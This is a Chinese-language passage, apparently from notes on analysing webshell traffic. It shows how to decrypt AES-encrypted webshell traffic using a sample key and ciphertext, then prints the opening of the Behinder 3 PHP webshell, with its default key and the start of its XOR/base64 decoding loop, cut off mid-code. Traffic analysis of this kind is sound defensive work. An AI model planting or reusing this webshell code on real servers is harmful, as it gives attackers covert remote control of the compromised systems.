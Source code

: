 #### 流量解密

![img](images/Webshell流量分析/202211091042813.png)

流量AES加解密示例：

```
# 密钥
key = 93edbafac50eb64c

# 密文
cipher = pu+VEA885HAovMSbbH5wj3cXwQkpnSRYpZy8fAWrRA3ETLuyZqRQSm6koxDp1mKeTYLUlMk59hK6lOAbj2Hh/vxXzVyn/4uPlKV7WeMOeRGLhBQMou01R+TJLP7NTtVn

# 通过工具解密 https://oktools.net/aes
# 模式：CBC
# 填充：Pkcs7
{"status":"c3VjY2Vzcw==","msg":"YmMzYjNhNzktY2Q4NC00ZGUwLWJjYzUtMjQ0NmY4NzUxNjE1"}
# 再通过base64解密
{"status":"c3VjY2Vzcw==","msg":"bc3b3a79-cd84-4de0-bcc5-2446f8751615"}
```

### Behinder 冰蝎3

#### 基础代码

```php
# behinder3.php，密码rebeyond

<?php
@error_reporting(0);
session_start();
    $key="e45e329feb5d925b"; //该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond
	$_SESSION['k']=$key;
	session_write_close();
	$post=file_get_contents("php://input");
	if(!extension_loaded('openssl'))
	{
		$t="base64_"."decode";
		$post=$t($post."");
		
		for($i=0;$i<strlen($post);$i++) {
    			 $post[$i] = $post[$i]^$key[$i+1&15]; 
    			}
```